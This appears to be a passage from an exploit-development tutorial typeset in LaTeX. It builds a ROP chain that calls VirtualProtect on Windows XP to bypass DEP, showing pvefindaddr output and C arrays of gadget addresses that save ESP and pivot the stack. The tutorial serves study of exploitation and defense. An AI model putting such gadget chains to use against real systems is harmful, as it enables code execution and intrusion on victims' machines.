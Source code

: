 \documentclass[12pt, titlepage]{article}
\begin{document}
\lstset{caption=Check with pvefindaddr that 0x010462E0 is writable}
\begin{lstlisting}
!pvefindaddr info 0x010462E0
   Information about address 010462E0 :
   ** [+] Gathering executable / loaded module info, please wait...
   ** [+] Finished task, 65 modules found
   Modules C:\WINDOWS\system32\shimgvw.dll
   [Module : Explorer.EXE] v6.00.2900.2180 [Fixup: ** NO **]  [SafeSEH: Yes - ASLR: ** No (Probably not) **]] {PAGE_READWRITE} - C:\WINDOWS\Explorer.EXE [Memory Type : Image] * System dll : 1
    **
   Instruction at 010462E0 : ADD BYTE PTR DS:[EAX],AL
\end{lstlisting}

So far our ropstack looks like that:
\lstset{caption=Basic ROPStack, language=C}
\begin{lstlisting}
DWORD ropStack[] = {
    0x7C801AD0, //VirtualProtect address
    0xF4F4F4F4, //return address :: modified later in the ropstack :)
    0xEEEEEEEE, //lpAddress :: modified later in the ropstack :)
    0x00000100, //dwSize
    0x00000040, //PAGE_EXECUTE_READWRITE
    0x010462E0, //lpOldProtect
    0xF4F4F4F4  //pop ebp :: padding
};
\end{lstlisting}

Now we need to increment the stack pointer to complete the second step: writing dynamically the two DWORDs thanks to several gadgets. But before that, it is interesting for us to save ESP somewhere. Actually we will use the EDI and the EAX register to write in the stack, so we keep in memory the stack pointer in EAX and EDI. In order to do so, we will make a combination of three gadgets, two of them are used to save ESP, and the last one to jump over the \emph{VirtualProtect} call stack.
\lstset{caption=ESP saving and jumping over the call stack, language=C}
\begin{lstlisting}
DWORD ropStack[] = {
    0x5B099EE7, //push esp / mov eax, edx / pop edi / retn :: save esp in edi
    0x6FF25365, //push edi / pop eax / retn :: save esp in eax
    0x77C190C3, //add esp, 18 / pop ebp / retn :: pivoting the stack

    0x7C801AD0, //VirtualProtect address
    0xF4F4F4F4, //return address :: modified later in the ropstack :)
    0xEEEEEEEE, //lpAddress :: modified later in the ropstack :)
    0x00000100, //dwSize
    0x00000040, //PAGE_EXECUTE_READWRITE
    0x010462E0, //lpOldProtect
    0xF4F4F4F4  //pop ebp :: padding
};
\end{lstlisting}
\end{document}
